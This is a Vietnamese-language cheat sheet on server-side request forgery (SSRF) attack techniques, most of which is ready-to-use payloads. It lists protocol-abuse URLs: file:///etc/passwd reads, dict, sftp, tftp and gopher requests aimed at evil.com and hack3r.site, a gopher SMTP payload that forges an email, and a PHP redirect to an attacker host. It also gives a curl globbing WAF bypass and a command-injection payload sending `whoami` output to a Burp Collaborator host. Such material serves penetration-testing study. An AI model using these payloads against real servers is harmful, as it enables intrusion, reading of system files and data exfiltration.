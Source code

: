 # **Các loại tấn công SSRF**

## **Qua phương thức (Protocols)**

> **file://**

```
file:///etc/passwd
```

> **dict://**
``` dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

> **SFTP://**

- Giao thức truyền file an toàn.

```
ssrf.php?url=sftp://evil.com:11111/
```

> **TFTP://**

- Giao thức truyền tệp UDP

```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

> **Gopher://**

- Chúng ta có thể sử dụng tool [Gopherus](https://github.com/tarunkant/Gopherus) để tạo payload với từng dịch vụ.

- Có thể RCE qua công cụ [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)

> Gopher smtp

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a
will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AHYou didn't say the magic word !
.
QUIT
```

> Gopher HTTP

```
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```

> Gopher SMTP — Back connect to 1337

```
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

> **Curl URL globbing - WAF bypass**

- Nếu SSRF được thực thi bằng Curl, thì Curl có một tính năng gọi là [URL globbing](https://everything.curl.dev/cmdline/globbing) có thể hữu ích để vượt qua WAF. Ví dụ: trong [writeup](https://blog.arkark.dev/2022/11/18/seccon-en/#web-easylfi) này, bạn có thể tìm thấy ví dụ này để truyền tải đường dẫn thông qua giao thức tệp:

```
file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}
```

> Tìm hiểu về url globbing

- Đôi khi, bạn muốn nhận được nhiều URL gần giống nhau, chỉ một phần nhỏ trong số đó thay đổi giữa các yêu cầu. Có thể đó là một dãy số hoặc có thể là một tập hợp các tên. Curl cung cấp tính năng "url globbing" như một cách để chỉ định nhiều URL như vậy một cách dễ dàng.

- Tính toàn cầu sử dụng các ký hiệu dành riêng [] và {} cho việc này, các ký hiệu thường không thể là một phần của URL hợp pháp (ngoại trừ các địa chỉ IPv6 dạng số nhưng dù sao thì cuộn tròn vẫn xử lý chúng tốt).

- Nếu tính năng toàn cầu cản trở bạn, hãy tắt nó bằng -g, --globoff.

- `Numerical ranges:`
    - Bạn có thể yêu cầu một phạm vi số với cú pháp `[N-M]`, trong đó N là chỉ mục bắt đầu và nó đi lên và bao gồm M. Ví dụ: bạn có thể yêu cầu từng hình ảnh 100 được đặt tên bằng số: `curl -O "http://example.com/[1-100].png" ; curl -O "http://example.com/[0-100:2].png" ; `
- `Alphabetical ranges:`
    - Curl cũng có thể thực hiện các phạm vi theo thứ tự bảng chữ cái, như khi một trang web có các phần được đặt tên từ a đến z: `curl -O "http://example.com/section[a-z].html"`
- `List`
    - Đôi khi các phần không tuân theo một mẫu đơn giản như vậy và khi đó bạn có thể tự mình đưa ra danh sách đầy đủ nhưng sau đó đặt trong dấu ngoặc nhọn thay vì dấu ngoặc được sử dụng cho các phạm vi: `curl -O "http://example.com/{one,two,three,alpha,beta}.html"`
- `Combinations:`
    - Bạn có thể sử dụng một số quả cầu trong cùng một URL, điều này sau đó cũng sẽ làm cho việc lặp lại các quả cầu đó trở nên khó khăn hơn. Để tải xuống hình ảnh của Ben, Alice và Frank, ở cả độ phân giải 100 x 100 và 1000 x 1000, một dòng lệnh có thể trông như sau: `curl -O "http://example.com/{Ben,Alice,Frank}-{100x100,1000x1000}.jpg"`

![](./img_SSRF/Screenshot%202023-09-25%20022817.png)
![](./img_SSRF/Screenshot%202023-09-25%20023012.png)

## **Wget file upload**

> **SSRF with Command Injection**

```
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
```    
> **PDFs Rendering**

- Nếu trang web tự động tạo một tệp PDF với một số thông tin bạn đã cung cấp, bạn có thể chèn một số JS sẽ được chính người tạo PDF (máy chủ) thực thi trong khi tạo tệp PDF và bạn sẽ có thể lạm dụng SSRF. [**Tìm thêm thông tin ở đây**](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#popular-pdf-generation).

## **SSRF PHP Functions**

![](./img_SSRF/Screenshot%202023-09-25%20024116.png)
![](./img_SSRF/Screenshot%202023-09-25%20024215.png)
![](./img_SSRF/Screenshot%202023-09-25%20025740.png)